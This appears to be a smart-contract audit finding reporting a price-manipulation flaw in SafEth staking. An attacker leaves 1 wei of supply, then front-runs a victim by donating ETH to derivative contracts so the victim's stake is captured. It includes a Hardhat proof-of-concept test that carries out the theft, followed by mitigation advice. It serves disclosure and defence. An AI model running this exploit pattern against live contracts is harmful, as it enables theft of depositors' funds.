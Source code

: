 ### Exploitable price manipulation vulnerability in SafEth staking

**Context:** [SafEth.sol](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/SafEth.sol#L71-L81) 

**Description:**

The code vulnerability allows for the direct theft of funds from other stakers in a derivative-based system. The stake function calculates the price of the safEth token based on the underlying value of derivatives. External manipulation of underlying values and depositors' influence on total supply can lead to an attack. The attack involves manipulating the underlying value to increase the price, followed by unstaking a small amount to profit from the price discrepancy. To mitigate this, implementing a lock mechanism and averaging the price over a certain period are recommended.


**Impact:**

Direct theft of funds from other stakers

**Proof of Concept**

The "stake" function allows external users to stake funds into a system of derivatives in exchange in safEth. The function first performs a few checks on the staking request to ensure that it meets certain criteria, such as minimum and maximum values.

The function then calculates the underlying value of each derivative object in terms of ETH, using a for loop to iterate over each object in an array. The total underlying value is then used to calculate the pre-deposit price of the safETH token.

The underlying value is calculated using the formula 
`(ethPerDerivative / the balance of the derivative) / 1e18`

The balance of the derivative is fetched in each function by calling the underlying token of the derivative, e.g. `IERC20(underlying).balanceOf(address(this));` [1](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/derivatives/SfrxEth.sol#L122-L124), [2](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/derivatives/WstEth.sol#L93-L95), [3](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/derivatives/Reth.sol#L221-L223)  - where the implementation of `ethPerDerivative` can vary. [1](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/derivatives/Reth.sol#L211-L215), [2](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/derivatives/SfrxEth.sol#L111-L117), [3](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/derivatives/WstEth.sol#L86-L88)

After that, if the supply is zero it initializes it with a price of 1 otherwise, it calculates it with the following formula:

`(10 ** 18 * underlyingValue) / totalSupply`.

However, because underlyingValue can be influenced externally and depositors can influence the totalSupply, this can lead to a complex attack vector which would result into theft of funds for other depositors.

<u>Consider the following scenario:</u> 

Bob deposits 0.5e18 (because there's a min deposit requirement) and receives 0,5001992725 safEth in exchange.

Now, if Alice is to stake 200e18, the price would be 1000000006116652746 and she would receive 200079708657045533684 safEth in exchange.

However, Bob has another plan. Immediately after his staking, he unstakes 0.5e18 - 1 wei, which leaves him with just 1 safEth.

Now if Alice is to stake -
underlyingValue equal 2
totalSupply would equal 1

Now if she stakes 200e18, the price equals `( 1e18 * 2 ) / 2` , hence she would get 100039855415051776431 safEth in exchange, which is not a problem **yet**, because she can withdraw them with a very minimal difference (~0.25e18), so Alice decides to proceed.

When Alice submits her transaction, Bob immediately notices it in the mempool and generously donates 100e18 to the SfrxEth derivative and the WstETH derivative, which directly would manipulate [this](https://github.com/code-423n4/2023-03-asymmetry/blob/44b5cd94ebedc187a08884a7f685e950e987261c/contracts/SafEth/SafEth.sol#L71-L81) computation.

```solidity
    // Getting underlying value in terms of ETH for each derivative
    for (uint i = 0; i < derivativeCount; i++)
      underlyingValue +=
        (derivatives[i].ethPerDerivative(derivatives[i].balance()) *
          derivatives[i].balance()) /
        10 ** 18;

    uint256 totalSupply = totalSupply();
    uint256 preDepositPrice; // Price of safETH in regards to ETH
  
    if (totalSupply == 0)
      preDepositPrice = 10 ** 18; // initializes with a price of 1
    else preDepositPrice = (10 ** 18 * underlyingValue) / totalSupply;
```

Now that `underlyingValue` is manipulated, the price equals the astonishing 100079713278686337891000000000000000000, so as a result Alice gets only 1 safEth in exchange.

Bob, knowing what happened is very quick to unstake his 1 safEth, which yields him ~ 49,80 ETH profit.

To prove this, I've built a PoC using the test suite of the protocol, with two very small modifications so it's easier to use.

I've added this function to WstEth and SfrxEth in order to simulate Bob's donation easier.
```solidity
  function feedMe () external payable {
    (bool sent, ) = WST_ETH.call{ value: msg.value }("");
  }
```

And additionally, I have set Reth's weight to 0 just to simplify the example.


```typescript
it("Direct theft of funds", async function () {
      const startingBalance = await adminAccount.getBalance();
      console.log("Bob balance before attack:",ethers.utils.formatEther(startingBalance));
      await safEthProxy.connect(adminAccount).stake({ value: ethers.utils.parseEther("0.5") });
      let balance = await safEthProxy.balanceOf(adminAccount.address)

      await safEthProxy.connect(adminAccount).unstake(
        balance.sub(1)
      );      

      let der1 = await safEthProxy.derivatives(1);
      let der2 = await safEthProxy.derivatives(2);

      const iface = new ethers.utils.Interface(['function feedMe()']);
      const data = iface.encodeFunctionData('feedMe');

      // SfrxEth
      await adminAccount.sendTransaction({
        data: data,
        to: der1,
        value: ethers.utils.parseEther("100")
      })

      // WstETH
      await adminAccount.sendTransaction({
        data: data,
        to: der2,
        value: ethers.utils.parseEther("100")
      })


      console.log("Alice balance before staking:",ethers.utils.formatEther(await alice.getBalance()));
      await safEthProxy.connect(alice).stake({ value: ethers.utils.parseEther("200") });
      let aliceSafEthBalance = await safEthProxy.balanceOf(alice.address);
      

      await safEthProxy.connect(adminAccount).unstake(1);

      console.log("Bob balance after attack:",ethers.utils.formatEther(await adminAccount.getBalance()));

      await safEthProxy.connect(alice).unstake(aliceSafEthBalance);

      console.log("Alice balance after unstaking:",ethers.utils.formatEther(await alice.getBalance()));
    
    });
```

Running `yarn hardhat test ./test/SafEth.test.ts --grep "Direct theft of funds"` in the console, yields the following result.

![](https://i.imgur.com/3rQfZnG.png)


**Tools Used**

Manual review, Hardhat


**Recommended Mitigation Steps**

These types of attacks always have different nuances and variations, so in general its not recommended to rely on external calls that can be unexpectedly manipulated. 

1. Implement a lock mechanism: Introduce a lock mechanism that prevents users from unstaking their funds immediately after staking. This can be done by setting a minimum lock duration, during which users cannot unstake their funds. This will prevent attackers from manipulating the underlying value and total supply in the short term.
2. Average the price over a certain period: Instead of using the current underlying value and total supply to determine the price, use a moving average of the price over a certain period. This would reduce the effect of sudden changes in the underlying value and total supply on the price calculation.
